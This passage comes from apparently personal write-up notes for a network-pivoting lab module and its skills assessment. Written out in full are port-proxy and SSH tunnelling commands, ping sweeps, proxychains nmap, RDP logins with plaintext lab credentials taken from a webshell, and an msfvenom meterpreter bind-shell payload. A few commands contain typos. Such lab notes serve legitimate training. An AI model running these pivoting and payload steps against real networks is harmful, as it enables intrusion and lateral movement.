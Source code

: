 Then, RDP to server B from server A and run (as administrator):  
`netsh.exe interface portproxy add v4tov listenport=8086 listenaddress=<server B network 2 ip> connectport=3389 connectaddress=<server C network 3 ip>`  

Now, rdping from our attack host with:  
`xfreersp /v:<server A network 1 ip>:8687 /u:jason /p:WellConnected123!`  
gets us an RDP session all the way to server C  

<br />

## Skills Assessment

This brought together a few of the concepts in the module, and was actually quite hard  

We are given a webshell on an Ubuntu server at `10.129.201.127`  

In the webshell, we can find webadmin user's private rsa key, which enables us to ssh to the ubuntu server as webadmin  

The Ubuntu server is dual homed on a second network with its ip on that network being `172.16.5.15`  

We run an IP sweep of that network from the Ubuntu server ssh session with:  
```bash
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
```
and find `172.16.5.35` is also a host on that network.  
In order to run nmap against that host, we run:  
`ssh -D 9050 -i rsa_priv -N -f webadmin@10.129.201.127`  
to start dynamic SSH port forwarding  

Then;  
`proxychains nmap 172.16.5.35`  
will scan the 35 host  
We can see 3389 is open for RDP connections. Luckily, we found the password for a user `mlefay` on the Ubuntu server, so we should try rdping as him  
To do so:  
```bash
# Setup a local port forward:  
ssh -L 8687:172.16.5.35:3389 -i rsa_priv -N -f webadmin@10.129.201.127  
# Connect to RDP:
xfreerdp /v:127.0.0.1:8687 /u:mlefay /p:'Plain Human work!'
```
Upon connecting to this box, we find it is also dual homed on a second network with the ip address 172.16.6.35 on that network.  

We can do an ipscan of that network from the Windows box with:
```Windows
for /L %i in (1 1 254) do ping 172.16.6.%i -n 1 -w 100 | find "Reply"
```
(We have to run this twice, otherwise it won't work)  
We find that 172.16.6.25 is a running box  

This part was tricky to figure out:  
We need some creds for the user vfrank  
To get those creds, we are going to need a meterpreter session on 35  
Generate a bind shell with msfvenom:  
`msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o bind_shell.exe LPORT=8443`  
  